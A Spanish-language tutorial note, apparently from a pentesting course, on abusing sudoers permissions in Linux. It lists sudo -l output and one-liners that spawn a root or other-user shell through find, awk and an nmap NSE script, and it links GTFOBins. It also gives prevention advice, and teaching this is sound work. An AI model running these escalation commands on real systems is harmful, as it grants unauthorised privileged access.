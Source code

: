 # Abusando de privilegios a nivel de Sudoers

Tags: #Linux #Sudoers #Escalada #Root #Privilegios 

El archivo **/etc/sudoers** es un archivo de configuración en sistemas Linux que se utiliza para controlar el acceso de los usuarios a las diferentes acciones que pueden realizar en el sistema. Este archivo contiene una lista de usuarios y grupos de usuarios que tienen permisos para realizar tareas de administración en el sistema.

El comando “**sudo**” permite a los usuarios ejecutar comandos como superusuario o como otro usuario con privilegios especiales. El archivo sudoers especifica qué usuarios pueden ejecutar qué comandos con sudo y con qué privilegios.

Abusar de los privilegios a nivel de sudoers es una técnica utilizada por los atacantes para elevar su nivel de acceso en un sistema comprometido. Si un atacante es capaz de obtener acceso a una cuenta con permisos de sudo en el archivo sudoers, puede ejecutar comandos con privilegios especiales y realizar acciones maliciosas en el sistema.

El comando “**sudo -l**” es utilizado para listar los permisos de sudo de un usuario en particular. Al ejecutar este comando, se muestra una lista de los comandos que el usuario tiene permiso para ejecutar y bajo qué condiciones.

Para prevenir el abuso de privilegios a nivel de sudoers, se recomienda mantener los permisos adecuados en el archivo sudoers y limitar el número de usuarios con permisos de sudo. Además, es importante monitorear regularmente el archivo sudoers y buscar cambios inesperados o sospechosos en su contenido.

A continuación, se os comparte el recurso GTFOBINS el cual utilizamos en esta clase para detectar comandos que potencialmente puedan ser explotados para elevar nuestro privilegio de usuario:

- **GTFOBins**: [https://gtfobins.github.io/](https://gtfobins.github.io/)

## Sudoers 

```bash
❯ sudo -l                                          # Ver que permisos tenemos en el sudoer y poder ejecutar como root algun comando
	
	# (ALL : ALL) ALL
	# ALL=(root) NOPASSWD: /usr/bin/find
	
	# El comando que podemos ejecutar lo debemos de hacer asi:
❯ sudo find . -exec /bin/sh \; -quit
❯ sudo awk 'BEGIN {system("/bin/sh")}' 
```

También puede que nos salga en el Sudoers la siguiente información.

```bash
❯ sudo -l                                                    # Si encontramos esto, es que podemos ejecutar como nuestro usuario el comando 'nmap' siendo 'villa' sin passwd
	
	#  (villa) NOPASSWD: /usr/bin/nmap 

	# El comando que podemos ejecutar lo debemos de hacer asi:
❯ echo 'os.execute("/bin/sh")' > script.nse                  # Este comando lo podemos ejecutar en un dir con capacidad de escritura, el .nse es porque es un script en LUA y ese tipo de archivos los lee nmap
❯ sudo -u villa nmap --script=/tmp/script.nse
```